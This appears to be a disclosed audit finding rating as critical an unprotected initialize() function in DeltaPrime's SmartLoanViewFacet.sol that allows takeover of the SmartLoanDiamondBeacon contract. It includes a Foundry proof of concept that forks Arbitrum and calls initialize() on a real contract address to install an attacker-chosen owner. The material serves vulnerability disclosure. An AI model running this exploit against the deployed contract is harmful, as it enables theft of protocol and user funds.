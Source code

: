 **Contract hijack via unprotected initialize in SmartLoanViewFacet.sol**

               
_Bug Severity:_ Critical            

_Target:_ https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/main/contracts%2Ffacets%2FSmartLoanViewFacet.sol#L41


**Summary:**

DeltaPrime maintains all user's prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

```solidity
      // SmartLoanViewFacet.sol
@audit-bug--> // ⚠️ Owner did not call initialize, hence, anyone can call it and steal the contract
    function initialize(address owner) external {
        require(owner != address(0), "Initialize: Cannot set the owner to a zero address");
        require(address(this) != DeploymentConstants.getDiamondAddress(), "DiamondInit: Cannot initialize DiamondBeacon");

        DiamondStorageLib.SmartLoanStorage storage sls = DiamondStorageLib.smartLoanStorage();
        require(!sls._initialized, "DiamondInit: contract is already initialized");
        DiamondStorageLib.setContractOwner(owner);
        sls._initialized = true;
    }
```


**Impact:**

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.



**Proof of concept (POC):**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }
```


---

***PoC Output:***

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)
